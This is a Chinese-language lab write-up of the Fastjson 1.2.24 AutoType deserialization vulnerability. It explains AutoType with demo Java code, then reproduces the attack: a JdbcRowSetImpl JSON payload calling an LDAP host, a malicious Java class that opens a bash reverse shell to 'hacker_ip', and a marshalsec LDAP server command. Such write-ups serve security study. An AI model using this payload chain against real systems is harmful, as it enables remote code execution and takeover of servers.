# 1、基础简述
- Fastjson
  - 阿里的开源JSON解析库，用于解析JSON格式的字符串，支持将JavaBean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean
  - 通过JSON.toJSONString和JSON.parseObject/JSON.parse分别实现序列化和反序列化
  - 被序列化或反序列化的累类中必须要有get和set方法

```java
# Profile.java

package org.example;

public class Profile {
    String name = "Jerry";
    int age = 21;
    String love = "UFC";

    public void setName(String name) {
        this.name = name;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public void setLove(String love) {
        this.love = love;
    }

    public String getName(){
        return this.name;
    }

    public int getAge(){
        return  this.age;
    }

    public String getLove(){
        return this.love;
    }
}
```

```java
# Main.java
package org.example;

import com.alibaba.fastjson.*;

public class Main {
    public static void main(String[] args) {
        Profile profile = new Profile();
        String jsonString = JSON.toJSONString(profile);
        System.out.println("序列化：\n" + jsonString);
        Profile hello = JSON.parseObject(jsonString, Profile.class);
        System.out.println("反序列化各属性结果：");
        System.out.println("name => " + hello.getName());
        System.out.println("age => " + hello.getAge());
        System.out.println("love => " + hello.getLove());
    }
}
```

```运行结果
序列化：
{"age":21,"love":"UFC","name":"Jerry"}
反序列化各属性结果：
name => Jerry
age => 21
love => UFC

Process finished with exit code 0
```

# 2、漏洞原理
- 介绍：Fastjson1.2.24反序列化漏洞的成因是因为AutoType机制的安全校验缺失，导致攻击者可以结合Java和JNDI注入进行恶意攻击，攻击者在JSON中通过@type字段指定接口JdbcRowSetImpl，并设置dataSourceName为自己控制的RMI/LDAP服务，使目标机访问自己设置好的恶意RMI/LDAP服务并加载恶意代码
- AutoType详解：Fastjson 为解决序列化时“接口/抽象类无法还原具体子类”的问题，引入了AutoType功能，通过JSON中的@type字段标记原始类的全路径，反序列化时根据该字段实例化对应的类

```java
# AutoTypeDemo.java
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

// 抽象类（类似接口，无法直接实例化）
abstract class Shape {
    public abstract double getArea(); // 计算面积的抽象方法
}

// 子类：圆形
class Circle extends Shape {
    private double radius; // 半径

    // 无参构造（反序列化必需）
    public Circle() {}

    public Circle(double radius) {
        this.radius = radius;
    }

    @Override
    public double getArea() {
        return Math.PI * radius * radius; // 圆面积公式
    }

    // getter和setter（序列化/反序列化必需）
    public double getRadius() {
        return radius;
    }

    public void setRadius(double radius) {
        this.radius = radius;
    }
}

// 子类：矩形
class Rectangle extends Shape {
    private double length; // 长
    private double width;  // 宽

    // 无参构造（反序列化必需）
    public Rectangle() {}

    public Rectangle(double length, double width) {
        this.length = length;
        this.width = width;
    }

    @Override
    public double getArea() {
        return length * width; // 矩形面积公式
    }

    // getter和setter
    public double getLength() {
        return length;
    }

    public void setLength(double length) {
        this.length = length;
    }

    public double getWidth() {
        return width;
    }

    public void setWidth(double width) {
        this.width = width;
    }
}

public class AutoTypeDemo {
    public static void main(String[] args) {
        // 原始对象：抽象类Shape类型，实际是Circle子类实例
        Shape shape = new Circle(2.0); // 半径为2的圆
        System.out.println("原始对象类型：" + shape.getClass().getSimpleName());
        System.out.println("原始对象面积：" + shape.getArea() + "\n");


        // --------------------------
        // 情况1：关闭AutoType（1.2.24版本默认不生成@type）
        // --------------------------
        // 序列化时不添加WriteClassName，默认不生成@type字段（即关闭AutoType）
        String jsonWithoutAutoType = JSON.toJSONString(shape);
        System.out.println("关闭AutoType的JSON：" + jsonWithoutAutoType);

        // 反序列化（JSON中没有@type，无法识别具体子类）
        try {
            // 1.2.24版本反序列化抽象类时，因无@type会报错
            Shape shapeWithoutAutoType = JSON.parseObject(jsonWithoutAutoType, Shape.class);
            System.out.println("关闭AutoType反序列化后的类型：" + shapeWithoutAutoType.getClass().getSimpleName());
            System.out.println("关闭AutoType反序列化后的面积：" + shapeWithoutAutoType.getArea());
        } catch (Exception e) {
            System.out.println("关闭AutoType反序列化失败：" + e.getMessage() + "\n");
        }


        // --------------------------
        // 情况2：开启AutoType（添加WriteClassName特性生成@type）
        // --------------------------
        // 序列化时添加WriteClassName，显式生成@type字段（开启AutoType）
        String jsonWithAutoType = JSON.toJSONString(
                shape,
                SerializerFeature.WriteClassName // 1.2.24支持该特性，生成@type
        );
        System.out.println("开启AutoType的JSON：" + jsonWithAutoType);

        // 反序列化（通过@type识别具体子类）
        Shape shapeWithAutoType = JSON.parseObject(jsonWithAutoType, Shape.class);
        System.out.println("开启AutoType反序列化后的类型：" + shapeWithAutoType.getClass().getSimpleName());
        System.out.println("开启AutoType反序列化后的面积：" + shapeWithAutoType.getArea());
    }
}
```

```运行结果
原始对象类型：Circle
原始对象面积：12.566370614359172

关闭AutoType的JSON：{"area":12.566370614359172,"radius":2.0}
关闭AutoType反序列化失败：null

开启AutoType的JSON：{"@type":"org.example.Circle","area":12.566370614359172D,"radius":2.0D}
开启AutoType反序列化后的类型：Circle
开启AutoType反序列化后的面积：12.566370614359172

Process finished with exit code 0
```

* 原理图（来自网络）：



# 3、漏洞复现

## 1、验证漏洞

* 访问目标URL：



* Burp抓取对应数据包：



* 修改为POST并提交以下数据包：

```json
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://d4i3fdmnhm5mo487oagpvz5an1tshi57.oastify.com",
        "autoCommit":true
    }
}
```


* 结果如下：



* 收到Burp dnslog回显，说明此处存在此漏洞

## 2、漏洞利用

* 编写恶意Java文件：

```java
# hello.java
import java.lang.Runtime;
import java.lang.Process;
public class hello {
    static {
        try {
            Runtime r = Runtime.getRuntime();
            Process p = r.exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/hacker_ip/9111 0>&1"});
            p.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

* 编译恶意Java文件：

```java
javac hello.java
```


* 此处开启python服务器：



* 另起终端使用工具marshalsec-0.0.3-SNAPSHOT-all.jar：

```java
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://python-server_ip:1111/#hello" 2222
```



* 再另起终端监听反弹shell的端口：



* Burp发送如下数据包：



* 结果如下：





* 成功获取shell！